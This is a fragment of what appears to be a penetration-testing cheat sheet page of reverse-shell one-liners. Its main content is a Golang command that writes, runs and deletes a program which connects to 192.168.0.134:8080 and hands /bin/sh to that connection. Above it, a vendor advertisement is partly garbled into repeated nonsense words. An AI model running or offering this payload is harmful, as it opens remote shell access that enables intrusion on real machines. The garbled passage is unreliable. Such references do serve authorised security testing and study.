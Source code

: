 vItlhutlhvam vulnerabilities vItlhutlhvam vItlhutlhvam vItlhutlhvam vItlhutlhvam vItlhutlhvam. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

## Golang
```bash
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","192.168.0.134:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```
## Lua

